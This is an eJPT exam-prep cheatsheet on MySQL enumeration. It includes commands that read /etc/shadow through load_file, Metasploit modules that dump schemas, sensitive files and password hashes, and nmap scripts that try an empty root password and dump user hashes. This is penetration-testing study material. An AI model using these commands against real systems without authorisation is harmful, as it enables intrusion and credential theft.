 # eJPT Cheatsheet

**exam prep**
# Table of Contents
https://github.com/jazzsimmonds/ejpt/blob/main/README.md#mysql

# Assessment Methodologies
## Information Gathering
## Footprinting and Scanning
## Enumuration
### MySQL
💡 Port 3306
<details>
<summary>MySQL</summary>
    
    ```Connect
    mysql -h <ip address> -u <username>
    -p ~ password login
    
    ```Queries
    > SHOW databases;
    > SHOW tables FROM databases;
    > USE database;
    > SELECT * FROM table;

    Dump number of records in table:
    >SELECT count(*) FROM table;
    
    Get password hash:
    > select load_file("/etc/shadow");
    > load_file("/etc/shadow");
    ```
</details>
<details>
<summary>Metaploit</summary>
    
    ```
    auxiliary/scanner/mysql/mysql_schemadump
    auxiliary/scanner/mysql/mysql_writable_dirs
        >  DIR_LIST /usr/share/metasploit-framework/data/wordlists/directory.txt
    auxiliary/scanner/mysql/mysql_file_enum
        > FILE_LIST /usr/share/metasploit-framework/data/wordlists/sensitive_files.txt
    auxiliary/scanner/mysql/mysql_hashdump
    ```
</details>

<details>
<summary>nmap</summary>
    
    ```scripts
    Check for anonymous login: --script=mysql-empty-password 
    Check if “InteractiveClient” capability is supported: --script=mysql-info
    Enumurate users: --script=mysql-users --script-args="mysqluser='root',mysqlpass=''"
    Enumurate DBs: --script=mysql-databases --script-args="mysqluser='root',mysqlpass=''" 
    Find Data Dir: --script=mysql-variables --script-args="mysqluser='root',mysqlpass=''" 
    Check if file privs can be granted for non-admin acc: --script=mysql-audit 
    --script-args="mysql-audit.username='root',mysql-audit.password='',mysql-audit.filename='/usr/share/nmap/nselib/data/mysql-cis.audit'"
    Dump user hashs: --script mysql-dump-hashes --script-args="username='root',password=''"
    Find number of records stored in table: --script=mysql-query --script-args="query='select count(*) from books.authors;',username='root',password=''"

    ```Example
     nmap --script=mysql-users --script-args="mysqluser='root',mysqlpass=''" -p 3306 192.71.145.3
    ```
</details>
<aside>
💡 For Finding all important files in Windows:(CTF Style)

`cd c:\Users` then
`tree /F`

</aside>

## Vulnerability Assessment
